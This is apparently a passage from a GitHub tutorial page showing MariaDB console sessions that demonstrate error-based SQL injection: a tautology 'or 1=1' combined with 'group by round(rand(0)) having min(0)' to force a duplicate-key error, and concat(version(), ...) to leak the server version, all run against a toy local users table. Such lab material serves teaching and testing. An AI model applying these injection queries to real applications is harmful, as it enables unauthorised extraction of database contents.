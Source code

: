 

#### Error - Error Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.000 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select name from users where name="sherwin" or 1=1 group by round(rand(0)) having min(0);
  ERROR 1062 (23000): Duplicate entry '1' for key 'group_key'
  
  MariaDB [y]> select name, round(rand(0)), concat(version(),round(rand(0))) from users;
  +----------+----------------+----------------------------------+
  | name     | round(rand(0)) | concat(version(),round(rand(0))) |
  +----------+----------------+----------------------------------+
  | sherwin  |              0 | 10.4.17-MariaDB0                 |
  | analette |              1 | 10.4.17-MariaDB1                 |
  | reine    |              1 | 10.4.17-MariaDB1                 |
  +----------+----------------+----------------------------------+
  3 rows in set (0.000 sec)
  ```




      ```
      MariaDB [y]> select name,rand() from users;
      +----------+---------------------+
      | name     | rand()              |
      +----------+---------------------+
      | sherwin  |  0.5641665035525025 |
      | analette |  0.7424374937475077 |
      | reine    | 0.01968798881367593 |
      +----------+---------------------+
      3 rows in set (0.000 sec)
      